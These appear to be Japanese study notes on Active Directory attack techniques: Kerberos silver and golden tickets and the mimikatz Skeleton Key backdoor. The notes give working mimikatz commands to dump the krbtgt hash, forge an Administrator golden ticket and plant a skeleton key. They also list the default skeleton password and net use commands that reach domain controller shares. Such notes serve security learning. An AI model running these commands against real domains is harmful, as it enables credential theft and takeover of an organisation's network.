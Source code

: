 - シルバーチケットは対象のサービス限定
- ゴールデンチケットは全ての Kerberos サービスにアクセスできる
- シルバーチケットの方がステルス性は高いので、どちらが優れているということはない

NTLM ハッシュをダンプ。SID も出力される。/name を付けなければ全員出る。

```sh
mimikatz # lsadump::lsa /inject /name:krbtgt
```

ゴールデンチケット。NTLM ハッシュと SID を指定。

```sh
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:<sid> /krbtgt:<NTLM-hash> /id:500

mimikatz # misc::cmd
```

## Backdoor（スケルトンキー）

ドメインフォレストのメモリに埋め込まれることで、マスターパスワードを持つ任意のマシンへのアクセスを可能にする。  
スケルトンキーが埋め込まれると、ドメインコントローラはユーザーの NT ハッシュと スケルトンキーの NT ハッシュの両方を使用してタイムスタンプの復号化を試み、ドメインフォレストへのアクセスを許可する。

スケルトンキーは Kerberos RC4 暗号でのみ機能する。  
mimikatz スケルトンキーのデフォルトのハッシュは `60BA4FCADC466C7A033C178194C03DF6` で、パスワードは `mimikatz`。

```
misc::skeleton
```

スケルトンキーはメモリ内のみ存在するため、永続化はしない。

その後の例

```ps
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

dir \\Desktop-1\c$ /user:Machine1 mimikatz
```
